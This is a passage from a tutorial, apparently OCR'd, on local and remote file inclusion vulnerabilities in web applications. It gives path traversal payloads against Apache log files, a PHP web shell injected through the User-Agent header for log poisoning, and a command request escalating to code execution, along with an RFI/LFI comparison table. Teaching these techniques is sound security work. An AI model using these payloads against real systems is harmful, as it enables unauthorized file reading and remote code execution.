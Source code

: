    ✅ If you see password file contents, it’s LFI + traversal.

3. **Include restricted functionality:**

   * Try loading `/admin`, `/config`, or `/secret`
   * This may **bypass access control** if the file is included and not directly accessed.

4. **Combine with traversal** to expand your access:

   ```
   page=../../../../../var/log/apache2/access.log
   ```

   ✅ Could let you **read logs** or even **execute code via log poisoning**.

---

## 🛡️ Key Differences Between RFI & LFI

| Property           | RFI                                  | LFI                                               |
| ------------------ | ------------------------------------ | ------------------------------------------------- |
| Source of file     | External URL                         | Local file system                                 |
| Common language    | PHP                                  | PHP, ASP, JSP, etc.                               |
| Impact             | Instant remote code execution        | File disclosure, code inclusion, RCE via chaining |
| Current prevalence | Low (due to `allow_url_include=off`) | High                                              |

---

## 🔥 Real-World LFI Exploitation Chain

Let’s say LFI is found in:

```
page=../../../../../var/log/apache2/access.log
```

If you can control log content (e.g., via User-Agent), then log poisoning allows:

```php
User-Agent: <?php system($_GET['cmd']); ?>
```

Now:

```
page=../../../../../var/log/apache2/access.log&cmd=whoami
```

✅ You just escalated LFI to RCE.

---

## 🧠 Recap Summary

* **File inclusion** bugs happen when user input controls which file gets loaded.
* **RFI** leads to **remote execution** by loading attacker-controlled code.
* **LFI** can read files, include protected code, or even escalate to **RCE** with help.
* Always test for inclusion by:
